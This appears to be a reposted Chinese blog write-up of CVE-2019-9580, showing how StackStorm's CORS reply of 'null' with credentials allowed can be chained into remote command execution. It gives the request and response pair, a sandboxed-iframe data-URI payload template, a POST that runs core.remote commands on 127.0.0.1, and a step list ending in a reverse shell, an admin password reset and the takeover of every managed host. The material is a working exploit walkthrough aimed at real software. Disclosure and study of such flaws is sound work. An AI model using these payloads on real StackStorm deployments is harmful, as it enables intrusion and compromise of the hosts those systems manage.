


# StackStorm 利用 CORS null origin 获得 RCE (CVE-2019-9580) - 九号探员 - 博客园

> 原文：[`www.cnblogs.com/jiuhaotanyuan/p/10547683.html`](https://www.cnblogs.com/jiuhaotanyuan/p/10547683.html)

> 在 2.10.3/2.9.3 之前，如果请求的来源未知，我们将返回 null，null 可以导致某些客户端中来自未知来源的成功请求，允许针对 StackStorm API 进行 XSS 样式攻击。



*（Firefox 上的用户是受害者，Chrome 上的用户是攻击者）*

#### 利用 null CORS

通过使用 null Origin 头向 StackStorm API 发送请求`Origin:null`，服务器以`Access-Control-Allow-Origin`to 响应`null`  

```
GET /api/v1/executions?action=packs.get_config&limit=5&exclude_attributes=trigger_instance&parent=null HTTP/1.1
Host: localhost:4443
Origin: 443
Referer: https://localhost:4443/
x-auth-token: a19e39b9dff24e4798ba04c7036d0275
```

服务器响应：

```
Access-Control-Allow-Origin: null <-- hug hug hug
Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
Access-Control-Allow-Headers: Content-Type,Authorization,X-Auth-Token,St2-Api-Key,X-Request-ID
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Type,X-Limit,X-Total-Count,X-Request-ID
```

在[portswigger](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)的[博客](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)文章中记录了利用 null CORS ，我们可以找到以下 payload：

```
<iframe sandbox =“allow-scripts allow-top-navigation allow-forms”src ='data：text/html，
<script>

*注入你的恶意代码*

</ SCRIPT>'> </ IFRAME>
```

如何得到 RCE 呢？

StackStorm 允许配置操作，其中一些操作如`core.remote`在您选择的主机上执行任意命令。



因此，如果我们设置主机 127.0.0.1，我们将在 StackStorm docker 上执行命令。很好，RCE 应该没问题，因为发送一个简单的 POST 请求来注册一个动作。

```
POST /api/v1/executions HTTP/1.1
Host: localhost:4443
Origin: null
Content-Type: application/json
x-auth-token: a19e39b9dff24e4798ba04c7036d0275
Content-Length: 131

{"action":"core.remote","parameters":{"cmd":"touch /tmp/pwn2.txt","hosts":"127.0.0.1","cwd":"/tmp"},"context":{"trace_context":{}}}
```

接下来应该怎么做？

我们可以在 StackStorm 的主机上执行命令，但是让我们完全控制 StackStorm 平台。可以通过重置管理员密码来解决此问题。使用文档：

> 需要更改密码？运行：sudo htpasswd/etc/st2/ htpasswd st2admin
> 
> [`docs.stackstorm.com/authentication.html`](https://docs.stackstorm.com/authentication.html)

OK，来理一下思路：

1.  发送一个带有恶意代码的受害者链接，在主机 127.0.0.1 上行使一个新动作以执行一个 arbirary 命令
2.  受害者点击链接并查看小马
3.  由于 CORS 在使用标头发送请求时为空`Origin: null`，因此注册新操作的 POST 请求正在运行（我们还设置了参数`credentials:"include"`）
4.  操作是触发器和命令执行（反向 shell）
5.  攻击者重置管理员密码并获得对 StackStorm 平台的完全控制权
6.  攻击者可以破坏注册到 StackStorm 的所有其他主机

